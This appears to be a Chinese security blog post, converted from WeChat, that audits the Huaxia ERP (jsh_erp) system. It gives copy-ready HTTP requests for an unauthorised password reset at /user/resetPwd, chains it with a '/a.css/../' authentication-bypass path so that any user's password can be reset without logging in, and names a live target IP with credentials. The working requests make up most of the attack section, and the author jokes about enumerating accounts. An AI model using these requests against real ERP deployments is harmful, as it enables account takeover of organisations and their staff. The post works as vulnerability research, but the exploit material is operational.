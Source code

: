 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/n1cfEpQLGHw-tAVdZVMdvw)

又是这个测试靶场。。。

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为越权任意用户密码重置漏洞，结合上一篇的授权绕过漏洞再打一个组合拳, 前台任意用户密码重置！

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

一、越权任意密码重置漏洞  

漏洞简单描述：

```
src/main/java/com/jsh/erp/controller/UserController.java
```

```
POST /user/resetPwd HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.72 Safari/537.36 Edg/89.0.774.45
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/reports/account_report.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Cookie: JSESSIONID=D735ED1C9E200438866A79896DF1F77D;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

id=63
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDialU5IZjbFcLn82gmFctiaRxia32e9vOX7b7Kr25SicPKxMWNIOZ1fn9PBicwa9yOicQGwbnv0Vwrc0HQ/640?wx_fmt=png)

测试漏洞的时候，我们先使用测试账号登录进后台，然后获取到所有用户 list

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDialU5IZjbFcLn82gmFctiaRzwD6ZZ1gtiaLLOiaHbPIXJKIWXRoRmcOfk8ZO3FBw9PPvyZQXUYtderA/640?wx_fmt=png)

发现主管大大的 ID 为 63，那我们就可以把他的密码重置掉：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDialU5IZjbFcLn82gmFctiaRibcvlwoMpzvpzJiaDxtveJ1yKgmiaib9fBnrjZYPwFibic906sDicnJ2jiaia0Q/640?wx_fmt=png)

知道你们懒得敲，复制一下：

```
POST /a.css/../user/resetPwd HTTP/1.1
Host: 47.116.69.14
Content-Length: 8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://47.116.69.14
Referer: http://47.116.69.14/pages/manage/user.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

id=90824
```

从上面的源码中可以看到，重置后的默认密码为 123456

二、组合拳 - 前台任意用户密码重置漏洞

那么实战中怎么可能有测试账号给你登录后台呢，弱口令？爆破？只不过很少时候是 yyds，那么我们就可以结合上一篇中的授权绕过漏洞打个组合拳。  

我们从前台随便重置一个 ID 的密码：  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDialU5IZjbFcLn82gmFctiaR5bV36N3iaXx47RTyKicKhL54VmOPd91sVLic4NcDbJVkkTNxUWVFE0M4w/640?wx_fmt=png)

```
POST /a.css/../user/resetPwd HTTP/1.1
Host: 47.116.69.14
Content-Length: 8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://47.116.69.14
Referer: http://47.116.69.14/pages/manage/user.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
id=90824
```

这时候肯定有人要问了，密码是给重置成 123456 了，那怎么知道账户是什么？？

(⊙o⊙)… 阿这，枚举一下子？然后全试一遍？哈哈哈不管了，反正不是我实战，就是这么不负责~

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1GjZWV69BXhbVdDPh2GNcQzoTyXn20iaOhsIGsxPPicJz6u7Rkq5weKmQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1vUPmy8nUyUcxBicqJEtxo3ib4YzTQQEWd5cotecmuB0pZy4AKgAdhapg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1SjnVpDzicoVx6nMShk1Ou1jtKYYicsvNHt3DCWZnM5bvTnW56wcFwD9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1Hxk0rhBSk7Oib2ZiafD0w9T9YBDffv171WjmnvFxlktv5UZiahYwytZ7w/640?wx_fmt=png)

本站暂不开源，因为想控制影响范围，若因某些人乱搞，造成了严重后果，本站将即刻关闭。

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

公众号